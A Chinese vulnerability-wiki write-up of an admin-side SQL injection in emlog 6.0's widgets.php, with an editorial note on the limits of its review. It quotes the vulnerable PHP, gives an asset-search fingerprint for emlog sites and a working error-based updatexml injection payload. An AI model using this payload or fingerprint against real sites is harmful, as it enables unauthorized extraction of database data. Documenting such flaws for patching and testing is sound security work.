





## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：后台登录及侧边栏配置权限；DB支持updatexml及显示错误

- **结论使用边界（1）**：代码展示widgets serialize后拼接UPDATE，wgnum已intval，不应把两参数均视SQL可控。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **凭据与会话边界（2）**：原始请求省略Cookie/Host/Content-Type及wgnum默认值说明；缺具体角色、修复版本/原始披露链接。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# emlog widgets.php 后台SQL注入漏洞

## 漏洞描述

emlog widgets.php文件在登录后通过构造特殊语句导致SQL注入，获取数据库敏感信息

## 漏洞影响

```
emlog 6.0
```

## 网络测绘

```
app="EMLOG"
```

## 漏洞复现

产品主页：https://github.com/emlog/emlog




存在漏洞的文件为 `admin/widgets.php`




```
if ($action == 'compages') {
    $wgNum = isset($_POST['wgnum']) ? intval($_POST['wgnum']) : 1;//侧边栏编号 1、2、3 ……
    $widgets = isset($_POST['widgets']) ? serialize($_POST['widgets']) : '';
    Option::updateOption("widgets{$wgNum}", $widgets);
    $CACHE->updateCache('options');
    emDirect("./widgets.php?activated=true&wg=$wgNum");
}
```

传参为 wgnum 和 widgets ，跟踪方法 `updateOption`




```
static function updateOption($name, $value, $isSyntax = false){
        $DB = Database::getInstance();
        $value = $isSyntax ? $value : "'$value'";
        $DB->query('UPDATE '.DB_PREFIX."options SET option_value=$value where option_name='$name'");
    }
```

可以发现对传入的参数木有进行过滤，构造Payload

```
POST /admin/widgets.php?action=compages

widgets=1' and updatexml(0x3a,concat(1,(select user())),1)-- 
```

调试后可以发现，数据库报错语句会回显至页面中，报错注入即可获取敏感信息







---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
